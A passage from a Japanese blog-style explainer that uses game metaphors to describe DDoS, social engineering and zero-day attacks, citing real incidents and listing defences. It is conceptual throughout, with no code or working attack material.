**プロトコル攻撃 (Protocol Attacks)**: サーバーの **連結資源** を枯渇させる攻撃だ。SYN Floodが代表的だが、TCP 3-way Handshakeの初段階(SYN)だけ大量に送って残りの段階を完了せずサーバーのHalf-open Connectionテーブルをいっぱいに満たす。ゲームで言えば、パーティ申請だけ数万件送っておいて受諾/拒絶はせずパーティシステムを麻痺させることだ。

**アプリケーション攻撃 (Application Layer Attacks)**: サーバーの **処理能力** を枯渇させる攻撃だ。HTTP Floodは正常なHTTP要請を大量に送ることであり、SlowlorisはHTTP連結を極度に遅く維持してサーバーの同時連結数を消耗させる。ゲームで言えば、NPCに同時に10万人がクエスト対話をかけてサーバーロジックを止めさせることだ。

**実際事例**: 2016年 **Miraiボットネット** は基本パスワードを使用するIoT機器(CCTV、ルーター、DVRなど)を感染させて大規模ボットネットを構成した。このボットネットはDNS提供業者Dynを攻撃してTwitter、Netflix、Spotify、Reddit、GitHubなど主要インターネットサービスを数時間の間麻痺させた。攻撃トラフィックは最大 **1.2Tbps** に達した。

**簡略防御法**:
- CDN(Content Delivery Network): トラフィックを分散して単一サーバー過負荷防止
- トラフィックスクラビング(Traffic Scrubbing): 悪性トラフィックをフィルタリングする専門サービス
- Rate Limiting: IPあたり要請回数制限
- Anycast: 同一なIPアドレスを複数サーバーに割り当てて負荷分散

### 6. Social Engineering -- 最も強力な武器はコードではなく心理学

> **一行要約**: 技術ではなく人間の心理的脆弱点を利用して情報を奪取したりシステムアクセス権限を得る攻撃

**ゲーム比喩**: MMORPGで「私運営者なんだけどアカウント点検中だよ。パスワード教えて」というささやきを受け取ったことがあるか？ これこそがソーシャルエンジニアリングの最も原始的な形態だ。技術的にいくら完璧なセキュリティシステムを構築しても、そのシステムを運用する **人** を騙すことができればすべてが崩れる。

伝説的なハッカーケビン・ミトニック(Kevin Mitnick)はこう言った：

> 「私はコードをハッキングしたのではなく人をハッキングした。」

彼はFBIに逮捕されるまで数年間数十個の企業システムに侵入したが、最も頻繁に使用した道具はコードではなく **電話機** だった。IT支援チームを詐称したり、新入社員のふりをしたり、緊急状況を演技して職員たちからパスワードとアクセス権限を得た。

#### ソーシャルエンジニアリングの類型

**フィッシング(Phishing)**: 公式メールを模倣した偽メールを送って偽ログインページに誘導する。「貴下のアカウントに非正常なアクセスが感知されました。直ちにパスワードを変更してください。」のようなメッセージが代表的だ。ゲームで言えば、公式ゲームフォーラムのように見える偽サイトを作ってアカウント情報を奪取することだ。

**スピアフィッシング(Spear Phishing)**: 一般的なフィッシングが不特定多数を対象にするなら、スピアフィッシングは **特定個人** を精密打撃する。対象のSNS、LinkedIn、社内組織図などを調査してカスタマイズ型攻撃メッセージを作成する。「キムチーム長、先週会議でおっしゃったプロジェクト報告書添付します」のように実際業務脈絡を反映する。

**プレテキスティング(Pretexting)**: 偽身分やシナリオを作って対象に接近する。IT支援チームを詐称して「システムアップデートのためにパスワードが必要です」と言ったり、上司を詐称して緊急な資金振替を要請するなどの方式だ。BEC(Business Email Compromise)攻撃がこの範疇に該当し、FBIによれば2019年から2023年までBECによる被害額は500億ドルを超過する。

**ベイティング(Baiting)**: 悪性ソフトウェアが入ったUSBドライブを会社駐車場やロビーに流しておく攻撃だ。USBには「年俸引上げ名簿.xlsx」や「機密プロジェクト計画.pdf」のような好奇心を刺激するファイル名が書かれている。誰かがこれを拾って会社コンピュータに連結すれば悪性コードが実行される。

**テールゲーティング(Tailgating)**: セキュリティ出入り門を通過する職員のすぐ後ろをついて入る物理的侵入方法だ。「出入証を持ってきませんでした、ちょっと開けてくれますか？」という簡単な要請でセキュリティ区域にアクセスできる。

**実際事例**: 2020年7月、Twitterは歴史上最大規模のセキュリティ侵害を経験した。攻撃者たちはTwitter職員に対する **電話基盤ソーシャルエンジニアリング** を通じて内部管理ツールにアクセスした。これを通じてバラク・オバマ、ジョー・バイデン、イーロン・マスク、ビル・ゲイツ、Apple公式アカウントなど世界的な有名人と企業のアカウントを奪取し、ビットコイン詐欺メッセージを掲示した。攻撃の開始点はコード一行ではなく **電話一本** だった。

**簡略防御法**:
- セキュリティ認識教育(Security Awareness Training): 定期的なフィッシングシミュレーション含む
- 多重認証(MFA, Multi-Factor Authentication): パスワードが流出しても追加認証必要
- 疑わしい要請検証プロセス: 「上司がメールで送金を要請すれば電話で確認」など
- 物理的セキュリティ強化: 出入統制、USBポート非活性化

### 7. Zero-day Exploit -- 発売当日に発見された無敵バグ

> **一行要約**: ソフトウェア開発者も知らない脆弱性を攻撃者が先に発見してパッチが出る前に悪用する攻撃

**ゲーム比喩**: ゲーム発売当日、開発チームも知らない **無敵バグ** を誰かが発見して悪用することを想像してみろ。開発チームはこのバグの存在さえ知らず、知るようになってもホットフィックスを作って配布するのに時間がかかる。その間にチーターは自由に無敵状態でゲームをかき回して歩く。**パッチが出る前まで完全な防御が非常に難しい。** ネットワークセグメンテーション、行為基盤探知、WAF/IPS、仮想パッチなどで危険を緩和することはできるが、根本的解決はパッチ配布以後にこそ可能だ。

#### 「ゼロデイ」という名前の由来

「ゼロデイ(Zero-day)」という名前は開発者に修正する時間が **0日(zero day)** 与えられたという意味で由来した。一般的な脆弱性は発見後「責任ある公開(Responsible Disclosure)」過程を経る。研究者が脆弱性を発見すればベンダーに先に知らせ、パッチが出るまで一定期間（普通90日）非公開に維持する。しかしゼロデイはこの過程なしに **発見直ちに悪用** される脆弱性だ。

#### ゼロデイライフサイクル

1. **脆弱性発見**: 攻撃者またはセキュリティ研究者がソフトウェアで知られていない脆弱性を発見する
2. **エクスプロイト開発**: 発見された脆弱性を実際に悪用できる攻撃コードを開発する
3. **野生で悪用 (In-the-wild)**: 攻撃者が実際対象に対してエクスプロイトを使い始める
4. **ベンダー認知**: 攻撃が探知されたりセキュリティ研究者によってベンダーが脆弱性の存在を知るようになる
5. **パッチ開発及び配布**: ベンダーが修正パッチを開発してユーザーに配布する
6. **ユーザーパッチ適用**: 最終ユーザーがパッチをインストールして脆弱性を解消する

3段階と4段階の間の期間がまさに **「ゼロデイウィンドウ(Zero-day Window)」** だ。この期間中攻撃者は事実上無防備状態のシステムを自由に攻撃できる。ゲームで言えば、チーターが無敵バグを使っているのに開発チームはそのバグの存在さえ知らない期間だ。

#### ゼロデイ市場

ゼロデイエクスプロイトはその希少性と破壊力のため途方もない価値を持つ。これを取引する市場は大きく三つに分かれる：

- **合法的市場**: バグバウンティプログラムを通じてベンダーに直接販売する。Google Project Zero、HackerOneなどを通じて数千から数十万ドルの補償を受けることができる。
- **グレー市場**: Zerodiumのようなブローカーが政府機関や法執行機関にエクスプロイトを仲介販売する。iOS遠隔脱獄ゼロデイの価格は **最大200万ドル** に達する。
- **ブラックマーケット**: ダークウェブでサイバー犯罪組織や国家ハッキンググループに取引される。

**実際事例**: 2021年Microsoft Exchange Serverの **ProxyLogon** 脆弱性は中国国家後援ハッカーグループHAFNIUMによって悪用された。パッチが配布される前に全世界数万台のExchangeサーバーが侵害された。2023年 **MOVEit Transfer** のゼロデイ脆弱性はロシアランサムウェアグループCl0pによって悪用され、2,500個以上の組織でデータが流出した。

**簡略防御法**:
- ゼロトラスト(Zero Trust)アーキテクチャ: 内部ネットワークも信頼しないセキュリティモデル
- 行動基盤探知(Behavioral Detection): シグネチャではない非正常行動パターンを探知
- 迅速なパッチ適用: パッチが出れば最大限早く適用するプロセス構築
- バグバウンティプログラム: 外部研究者たちが脆弱性を善意の目的で報告するように奨励

### 総合比較テーブル

今まで扱った7つの攻撃技法を一目で見比べられるように整理した。

| 技法 | 攻撃対象 | ゲーム比喩 | 技術難易度 | 危険度 | 探知難易度 |
|------|---------|----------|-----------|--------|-----------|
| SQL Injection | データベース | チャット欄コマンド注入 | ⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐ |
| XSS | ユーザーブラウザ | 偽HUD挿入 | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| Buffer Overflow | メモリ | インベントリ→ステータス上書き | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| MitM | ネットワーク通信 | ボイスチャット盗聴+操作 | ⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| DDoS | サーバー/ネットワーク | ボット100万同時接続 | ⭐⭐ | ⭐⭐⭐ | ⭐ |
| Social Engineering | 人 | インゲーム詐欺 | ⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| Zero-day | 未パッチSW | 発売日無敵バグ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |

このテーブルで注目すべき点は二つだ。第一に、**技術難易度が最も低いSocial Engineeringが危険度と探知難易度は最高** ということだ。これはセキュリティで最も弱い輪が常に人だという事実を反映する。第二に、**技術難易度が高い技法(Buffer Overflow, Zero-day)は探知も難しい** ということだ。高度な技術力が必要な分、防御側でもそれだけ高度な技術が必要だ。

---

## 仕上げ

### すべての攻撃を貫く一つのパターン

この記事で扱った7つの技法を振り返ってみれば、すべての攻撃を貫く一つのパターンが見える。それは **「信頼の境界(Trust Boundary)を越えること」** だ。

- **SQL Injection**: SQLクエリとユーザー入力の境界。システムはユーザー入力が「データ」であると信頼したが、攻撃者は「コード」を入れた。
- **XSS**: サーバーコンテンツとユーザースクリプトの境界。ブラウザはページのすべてのスクリプトを該当サイトのものと信頼したが、攻撃者のスクリプトが混ざっていた。
- **Buffer Overflow**: データ領域とコード領域の境界。プログラムはバッファにデータだけ入ってくると信頼したが、攻撃者は実行フローを変調するデータを入れた。
- **MitM**: 送信者と受信者の信頼境界。二当事者は互いに直接通信していると信頼したが、中間に攻撃者が割り込んだ。
- **DDoS**: 正常トラフィックと悪性トラフィックの境界。サーバーは入ってくる要請が正常ユーザーのものと信頼したが、大部分がボットのトラフィックだった。
- **Social Engineering**: 信頼できる人と攻撃者の境界。人は相手が自分が主張するまさにその人だと信頼したが、実際には偽装した攻撃者だった。
- **Zero-day**: 知られていることと知られていないことの境界。システムは知られている脆弱性がすべてパッチされたと信頼したが、まだ知られていない脆弱性が存在した。

セキュリティの本質は結局 **「信頼せよ、しかし検証せよ(Trust, but verify)」** という原則に帰結する。そして現代セキュリティのパラダイムである **ゼロトラスト(Zero Trust)** は一段階進んで **「絶対信頼せず、常に検証せよ(Never trust, always verify)」** を原則とする。

### 2編予告

攻撃を知ったので、もう防御を知る番だ。2編 **「盾の技術」** ではゲームアンチチートシステムの作動原理から企業セキュリティの核心技術、そしてAI時代の新しい脅威と防御戦略まで扱う。敵の武器を知ったので、もうそれに立ち向かう盾を作ってみよう。
